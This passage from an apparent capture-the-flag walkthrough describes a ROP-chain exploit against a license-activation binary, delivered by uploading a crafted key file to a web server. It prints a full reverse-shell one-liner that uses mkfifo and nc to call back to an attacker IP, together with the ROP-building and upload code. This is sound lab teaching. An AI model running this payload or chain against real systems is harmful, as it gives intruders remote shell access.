 Then once we have these, we can use this to find the offset and write a `system` command to the binary. The script used in the guide uses a basic `bash` shell and inserts it in:

```python
cmd = b"bash -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 7777 >/tmp/f' \x00"
```

Then, the ROP chaining occurs, where the command is written into the memory space 8 bytes at a time:

```python
for i in range(0,len(cmd),8):
		rop += pop_rdi
		rop += p64(writable + i)
		rop += pop_rdx
		rop += cmd[i:i+8].ljust(8, b"\x00")
		rop += mov
```

Afterwards, the whole ROP chain is written into a file and sent to the remote web server. This is done because the web server accepts file uploads and sends the file contents directly to the `activate_license` binary, which would trigger the shell.

```python
rop += pop_rdi
	rop += p64(writable)
	rop += system
	with open('getshell.key','wb') as f:
		f.write(rop)
	files = {"licensefile": ("getshell.key", open("getshell.key","rb"),
	'application/x-iwork-keynote-sffkey')}
	requests.post(f"http://10.129.227.96/activate_license.php", files=files)
```

If this script is run, it gives us a reverse shell that we can upgrade.

<figure><img src="../../../.gitbook/assets/image (1264).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation
